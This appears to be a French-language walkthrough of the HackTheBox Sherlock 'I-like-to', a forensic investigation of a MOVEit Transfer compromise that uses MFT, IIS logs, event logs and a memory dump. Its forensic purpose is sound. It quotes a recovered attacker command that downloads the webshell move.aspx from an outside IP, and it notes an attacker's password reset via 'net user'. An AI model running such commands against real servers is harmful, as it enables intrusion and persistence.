# Sherlock / SOC / CTI / DFIR / IR Exercice

## Title: I-like-to

## Date: 09/10/2025

## Objective:
Le but de la chasse est d'analyser le CVE **MOVEit** dans notre systeme Windows et d'identifier leur actions malveillants pour aider à notre equipe de SOC. On a toute les sources **triage** avec les artefacts nécessaires. Voila

La vulnerabilité: `MOVEit`

## Environment / Tools Used:
* HTB Sherlocks:
* Event Viewer, strings.exe, MFTECmd.exe, Timeline Explorer, Chainsaw, grep, Powershell

## Investigation Steps:
1. Analyser les informations disponiblees dans Triage.
2. Trouver les informations sur l'Internet: **Moveit** vulnerabilité

## Findings:
1. On doit trouver le fichier: `ASPX` téléchargé par l'attaquant:
    - Pour trouver cette information, on a la source: **$MFT**
    - Ma solution: 1-> `convertir $MFT à CSV par MFTECmd.exe`; 2-> `Ouvrir cela par Timeline Explorer`
        - `.\MFTECmd.exe -f '$MFT' --csv C:\Users\vboxuser\Desktop\ --csvf mtf_parsed.csv`
    - Quand on a analysé avec `Timeline Explorer` et a recherché les fichiers: `.aspx`
    - On a trouvé qu'il y a un fichier: `move.aspx` téléchargé par l'attaquant à location: `MOVEitTransfer\wwwroot`
    - C'est suspect pour nous.
    - Voilà, la preuve:
    

2. On doit trouver l'IP addresse de l'attaquant:
    - Pour trouver cette information, on a la source pour utiliser: `I-like-to-27a787c5.vmem`
        - Ce fichier est `dumped` mais on ne peut utiliser cela avec **Volatility3** car il n'a pas `.vmss` partie de fichier.
    - Donc, on peut utiliser l'outil: **strings** pour trouver quelque information avec le fichier (script) malveillant **move.aspx**.
    - On a utilisé cette commande: `strings I-like-to-27a787c5.vmem | grep "move.aspx"`
        - Il nous a donné l'information de l'IP addresse de l'attaquant: `10.255.254.3`
    - Voilà, la preuve:
    

3. On doit trouver *User Agent* utilisé par l'attaquant
    - On a la source: `Web Service Logs` et on peut utiliser cela:
    - Quand on a analysé le fichier: `u_ex230712`, on a trouvé que l'attaquant utilisé le logiciel: `Ruby` pour demander les info avec `GET` methode
    - Voilà, la preuve:
    

4. Maintenant, on doit trouver le temps téléchargé du fichier: `move.aspx`
    - Quand on a analysé la source: `$MFT` avec le mot clé: `move.aspx`
    - On a trouvé qu'il est créé le `2023/07/12 11:24:30`
    - Voilà, la preuve: Voila
    

5. On doit trouver la taille du fichier téléchargé par l'attaquant:
    - Ma méthode: Convertir le `$MFT` au `jason` fichier en utilisant `PowerShell`
        - `$mft=Get-Content "$MFT" | ConvertFrom-Json`
        - `$mft | Where-Object {$_.FileName -eq "movit.asp"} | Select-Object FileName, FileSize`
    - On connaît que `.asp` est l'ancienne version par rapport à l'autre.
    - Ensuite, j'ai obtenu la taille du fichier: `1362`
    - Voilà, la preuve:
    

6. On doit trouver l'outil utilisé par l'attaquant pour faire une énumération initiale:
    - Quand on a analysé le logs Web Server: `u_ex230712`, on a trouvé l'outil qui utilisé souvent pour faire les fins des énumérations initiales
    - Cet outil: `Nmap`
    - Voilà, la preuve:
    

7. On suspect que l'attaquant peut-être modifier le mot de passe du compte: `moveitsvc`
    - Pour trouver cette information, on doit utiliser l'ID événement: `4724` qui montre la modification ou reset du mos de passe du compte.
    - Quand on a analyser le fichier: `Security.evtx` avec l'outil: `Event Viewer`
    - On a trouvé que ce événement s'est passé le `2023-07-12 11:09:27`
    - Voilà, la preuve:
    

8. L'attaquant fait une connexion remote et on doit trouver quel logiciel il a utilisé pour cela:
    - D'abbord, on connaît que l'exploitation de systeme est Windows et donc le logiciel: `RDP` et souvent utilisé.
    - On analyse la source: `Security.evtx` et on recherche l'ID: `4624` avec `Logon Type: 10` qui montre `RemoteDesktopConnection`.
    - L'outil: `Event Viewer` >> J'ai modifié le *XML* filtre et Alors
    - J'ai trouvé que le logiciel utilisé est vraiment **RDP**
    - Voilà, la preuve:
    

9. Maintenant, on doit trouver la date de connexion par l'attaquant par **RDP**
    - Quand on a analysé la source: `Security.evtx` avec le filtre: `4624` et `Logon Type 10`, on a trouvé deux événements et
    - La date: `2023-07-12 11:11:18`
    - Voilà, la preuve:
    

10. On doit trouver le *User Agent* de l'attaquant:
    - Quand on a analysé la source: **ISS Logs**, on a trouvé le fichier: `u_ex230712`
    - Dans ce fichier, il y une information de **User Agents**.
    - Plus précisement, on connaît que le webshell: `move.aspx` et donc son `User Agent` est nécessaire pour nous.
    - On a trouvé que le *User Agent* est `Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0`
    - Voilà, la preuve:
    

11. On doit trouver l'inst ID de l'attaquant
    - Pour trouver cette information, on doit analyser la source: `moveit.sql` dans `Triage/uploads/moveit.sql`
    - J'ai utilisé le **MariaDB** avec cette commande:
        ```SQL
            select LogTime, InstID, Username,IPAddress, FileName, FolderPath,
        ```
	- Ensuite, on a trouvé que l'inst ID: `1234` est associé avec l'attaquant
    

12. On doit la commande utilisé par l'attaquant pour récupérer *webshell*
    - On connaît que on peut utiliser la source: `Powershell Logs: ConsoleHost_history.txt`
    ```powershell
        notepad.exe 'Z:\tmp\cyberla\Triage\uploads\auto\C%3A\Users\moveitsvc.WIN-LR8T2EF8VHM.002\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\C        onsoleHost_history.txt'
    ```
    - Quand on a analysé l'utilisateur: `moveitsvc` >> on a trouvé cette commande:
        - `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`
    - Voilà, la preuve:
    


13. Maintenant, on doit trouver le titre écrit par TA:
    - D'abbord, on a recherché les événements avec `.evtx` mais il n'y a pas les infos:
    - Plus précisement, on connaît que le webshell: `move.aspx` et donc son contenu est nécessaire pour nous.
    ```bash
        grep -A15 -B15 move.aspx findings.txt | more
    ```
    - On recherché le mot clé: `title` et a trouvé ce titre: `awen asp.net webshell`
    - Voilà, la preuve:
    

14. On doit trouver le mot de passe modifié par TA
    - Pour trouver cette info: on a analysé: **Powershell Logs: ConsoleHost_history.txt** mais il n'y a pas.
    - On a la source: `i-like-to.vmem` et on peut analyser cette mémoire.
    - Le moment clé est que on doit rechercher le compte: `moveitsvc`
    - L'outil: **strings** et `grep`, `sort,` `uniq`. Mes commandes:
    ```bash
	    strings i-like-to.vmem > findings.txt
	    grep moveitsvc findings.txt | sort | uniq -c | sort -n
    ```
    - Après, on a analysé la source: `i-like-to.vmem` et a trouvé la commande: `net user` qui peut-être utilisé pour modifier le mot de passe de compte.
    - Et cela est notre réponse: `net user 5trongP4ssw0rd`
    - Voilà, la preuve:
    

## Key Learning / Takeaway:
1. Les fichiers: **.aspx** >> webshell >> ils peuvent contenir script pour le framework Microsoft: **ASP.NET**
    - *une page web générée à l'aide du framework Microsoft ASP.NET exécuté sur des serveurs web*
    - *asp* est 'ancienne version et *aspx* est nouvelle version.

2. Event ID`4724` est d'enregistrer quand le mot de passe compte est essayé de modifier par quelqu'un. Voila

3. La vulnerabilité: **MOVEitTransfer** avec l'attaque: **SQL Injection**

## Voilà:
- **Voilà, ça y est, c'est fini:** `https://labs.hackthebox.com/achievement/sherlock/2118023/553`
